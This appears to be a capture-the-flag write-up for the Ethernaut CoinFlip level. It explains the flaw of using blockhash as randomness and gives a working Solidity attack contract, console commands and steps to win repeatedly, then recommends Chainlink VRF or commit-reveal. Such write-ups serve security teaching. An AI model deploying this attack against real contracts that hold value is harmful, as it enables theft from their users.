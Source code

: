 # Introduction
The ``CoinFlip`` contract is a challenge that requires players to correctly guess the outcome of a coin flip multiple times consecutively. However, a critical vulnerability related to predictable randomness enables an attacker to consistently win the coin flip.

## Target
Predict the result of the `flip` function and achieve consecutive wins indefinitely.

## Context
The `CoinFlip` contract has the following key components:

- A `consecutiveWins` variable (type `uint256`) to track the number of successful guesses.
- A `lastHash` variable used to store the previous block’s hash.
- The `FACTOR` constant helps scale the block hash to a range of 0 or 1.
- The `flip` function calculates the outcome using the block hash, making it predictable by external calls.

## Security Vulnerability
The contract relies on `blockhash(block.number - 1)`, which is deterministic and can be accessed off-chain.

An attacker can call the function in the same block and calculate the result before making a guess.

## Exploit Steps

1. **Create the Attack Contract:**
    - Copy and paste the following code into a new file in Remix with an arbitrary name:

    ```solidity
    pragma solidity ^0.8.0;

    contract Attack {
         CoinFlip private coinFlipContract;
         uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

         constructor(address _coinFlipAddress) {
              coinFlipContract = CoinFlip(_coinFlipAddress);
         }

         function attack() public {
              uint256 blockValue = uint256(blockhash(block.number - 1));
              uint256 coinFlip = blockValue / FACTOR;
              bool side = coinFlip == 1;

              require(coinFlipContract.flip(side), "Flip failed!");
         }
    }
    ```

2. **Deploy the Attack Contract:**
    - Deploy the `Attack` contract in Remix, providing the address of the `CoinFlip` contract (instance address) as the constructor argument.

3. **Verify the CoinFlip Contract:**
    - In the Ethernaut console, manually test the `flip` function with a guess:
      ```javascript
      await contract.flip(true); // or false
      ```
    - Check the `consecutiveWins` value to confirm the result:
      ```javascript
      await contract.consecutiveWins();
      ```

4. **Execute the Attack:**
    - Use the deployed `Attack` contract to repeatedly call the `attack` function until the `consecutiveWins` counter reaches 10.
    - Once the counter hits 10, the challenge is successfully completed.

By following these steps, you can exploit the predictable randomness in the `CoinFlip` contract and achieve the required consecutive wins.

## Conclusion

The `CoinFlip` contract demonstrates the dangers of relying on predictable on-chain values for randomness. By leveraging the block hash, an attacker can accurately predict the outcome of the coin flip and achieve consecutive wins indefinitely. This exploit highlights the importance of using secure randomness mechanisms, such as `Chainlink VRF` or `commit-reveal` schemes, to ensure fairness and unpredictability in smart contracts. Properly securing random values is essential for protecting contracts from malicious actors in blockchain environments.
